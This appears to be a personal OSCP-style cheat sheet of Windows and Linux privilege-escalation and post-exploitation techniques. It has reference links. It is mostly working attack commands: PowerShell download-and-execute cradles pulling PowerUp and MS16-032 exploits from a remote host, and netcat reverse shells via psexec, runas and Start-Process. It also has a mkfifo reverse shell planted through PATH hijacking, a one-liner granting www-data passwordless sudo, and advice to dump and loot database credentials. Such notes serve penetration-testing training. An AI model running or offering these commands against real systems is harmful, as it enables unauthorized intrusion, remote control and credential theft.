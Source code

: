 # General
- Always try dump and default passwords for users on the system
- Always search source code for DB credentials ands loot the hell out of the db, looking for creds.
- Always enumerate users and try and known password for that user

Good overview for resources

https://xapax.gitbooks.io/security/

Basically just a dump of unstructured OSCP knowledge with some helpful items

https://github.com/doffensive/wired-courtyard

# Windows
## Tips and Hints
- .JOB files are scheduled jobs which are not registered with the schtasks.

## Powershell
Running Local Commands
```powershell
powershell -ExecutionPolicy ByPass -command "& { . C:\Users\Public\Invoke-MS16-032.ps1; Invoke-MS16-032 }"

powershell -ExecutionPolicy ByPass -command "& { . Z:\PowerUp.ps1; Invoke-AllChecks }"
```
Running commands from a remote host
```powershell
powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.139/PowerUp.ps1'); Invoke-AllChecks"

powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.139/Invoke-MS16-032.ps1'); Invoke-MS16-032"
```

## File Transfer

SMB
```batch
net use * \\10.11.0.56\draedis /User:root <PASSWORD>
```

FTP - Run script and copy and paste output to terminal window
```bash
$SCRIPTS/ftp_pull.sh <filename to download>
#ftp_push will push files from windows to kali
```

Powershell - Run script and copy and paste to terminal window
```bash
$SCRIPTS/powershell_dl.sh <file to download>
```

VBScript - Run script and copy and paste to terminal window, then run download on terminal window
```bash
# Kali
$SCRIPTS/win_wget_vb.sh
```
```batch
REM Windows
cscript wget.vbs http://10.11.0.5/evil.exe evil.exe
```

PsExec for On Remote Machine
```batch
 C:\>psexec64 \\COMPUTERNAME -u Test -p test -h "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe" 
```

Powershell window to Run as a different user
```powershell
$username = '<username here>'
 $password = '<password here>'
 $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
 $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
 Start-Process -FilePath C:\Users\Public\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("-nc","192.168.1.10","4444","-e","cmd.exe") -WorkingDirectory C:\Users\Public

 powershell -ExecutionPolicy ByPass -command "& { . C:\Users\public\PowerShellRunAs.ps1; }"
```

Runas (e.g. su) for Windows with other creds. CAN'T PASS PASSWORD THO!
```batch
 C:\>C:\Windows\System32\runas.exe /env /noprofile /user:Test "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe"
 Enter the password for Test:
 Attempting to start nc.exe as user "COMPUTERNAME\Test" ...
 ```

Compile python exploits to .exe for windows
```bash
 pip install pyinstaller
 wget -O exploit.py http://www.exploit-db.com/download/31853  
 python pyinstaller.py --onefile exploit.py
 ```

## Pre-Compiled Exploits
https://github.com/SecWiki/windows-kernel-exploits

## Cheat Sheets
Mother Script

http://www.fuzzysecurity.com/tutorials/16.html

https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/

Quick Items to Check

https://github.com/ibr2/pwk-cheatsheet#windows-privilege-escalation

OSCP based Guides

https://chryzsh.gitbooks.io/pentestbook/privilege_escalation_windows.html

https://github.com/xapax/security/blob/master/privilege_escalation_windows.md

###
# Linux
## Tips and Hints
Upgrade shells
```python
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=linux
```
https://netsec.ws/?p=337

Check all files for ones that may be interesting (like authorized_keys)

Check SUID programs for ones that do not belong

Check sudo permissions

If run as root, get sudo permissions as low priv user
```bash
echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update
```

Find an app that is run as root and managle the path (setuid program for example). Think periodic script which runs (cron) or is already running
 ```bash
 set PATH="/tmp:/usr/local/bin:/usr/bin:/bin"
 echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.1 4444 >/tmp/f" >> /tmp/ssh
 chmod +x ssh
 ```

Always use google site:exploit-db.com <kernel_ver> to search for vulnerabilities, since not all are reported in the scripts. All vulns *should* be in searchsploit.
- `linux-exploit-suggester.sh` == most recent, but offline
- `linuxprivchecker.py` == good, but old exploits 
```bash
searchsploit "Linux Kernel"  
searchsploit linux 2.6 | grep -i ubuntu | grep local 
```

Compiling binaries on Kali for old distros
```
gcc 3.c -o 3 -static -Wl,--hash-style=sysv -m32
```
Only need static if there is a CRuntime Libc2.7 error

## Pre-Compiles Exploits
https://github.com/SecWiki/linux-kernel-exploits

## Cheat Sheets
Mother Script

https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

Some Quick Things to check

https://github.com/ibr2/pwk-cheatsheet#linux-privilege-escalation


Full, OSCP tailored a little

https://chryzsh.gitbooks.io/pentestbook/privilege_escalation_-_linux.html






